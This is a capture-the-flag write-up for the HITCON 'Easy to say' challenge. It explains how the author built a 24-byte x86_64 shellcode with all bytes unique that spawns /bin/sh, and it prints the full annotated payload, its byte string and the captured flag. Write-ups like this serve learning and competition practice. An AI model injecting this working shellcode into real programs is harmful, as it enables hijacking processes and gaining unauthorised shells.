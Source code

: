 # Misc - Easy to say

> Write-up by feignix (Paras Chetal)

We were supposed to write a x86_64 /bin/sh shellcode of less than 24 bytes with all bytes unique.

## Shellcode:


```

\xb0\x3b	;mov al, 0x3b

\xbb\xf4\x2e\x73\x68   ;mov ebx,0x68732ef4

\x01\xc3	     ;add bx,ax "//sh"

\x48\xc1\xe3\x20     ;shl rbx, 0x20

\x53	     ;push rbx

\x54	     ;push rsp

\x5f	     ;pop rdi

\xc7\x07\x2f\x62\x69\x6e;	  mov [rdi], 0x6e69622f "/bin"

\x0f\x05		  ;syscall
```


`\xb0\x3b\xbb\xf4\x2e\x73\x68\x01\xc3\x48\xc1\xe3\x20\x53\x54\x5f\xc7\x07\x2f\x62\x69\x6e\x0f\x05`


## Steps (rasm2 came in very handy while debugging):

The stack and registers were cleared out already, so we needed to load the registers with the correct values and run syscall.

The first hurdle was to ensure that all bytes  be unique. This meant that we could not just directly load the address of "/bin//sh" (0x68732f2f6e69622f) into rdi as is usually the case. We would have to create it with all unique bytes. Unfortunately, most of the operations (mov, add etc.) involving the r* registers begin with `\x48` so it meant we could only use one such instruction. I chose to first move "//sh" to ebx (no 0x48 here), and then use the shift left instruction on rbx (0x48 used) and then push it appropriately.

But directly moving "//sh" was not an option (unique bytes!), so I created it by moving (0x68732f2f - 0x3b) into ebx, and then adding ax (0x3b: which was already needed for the syscall, so I was trying to saving bytes). Then I shifted rbx by 32 bits and and pushed it onto the stack.

I now had to mov "/bin" to the stack too. This was the second big hurdle I faced. I initially used `mov [rsp], 0x6e69622f "/bin"`, followed by loading of address to rdi and then syscall. Unfortunately, the shellcode came out to be 25 bytes!

While trying other apporaches I discovred that `mov [rdi], 0x6e69622f "/bin"` took exactly 1 byte less than `mov [rsp], 0x6e69622f "/bin"` ! So I rearranged my earlier shellcode to  load the stack ("/bin//sh") address to rdi before moving "/bin" onto the stack using `mov [rdi]` instead of `mov [rsp]` this time. Now the shellcode was 24 bytes only :)

After [sending the shellcode](exp.py), I got shell and read the flag: `hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}`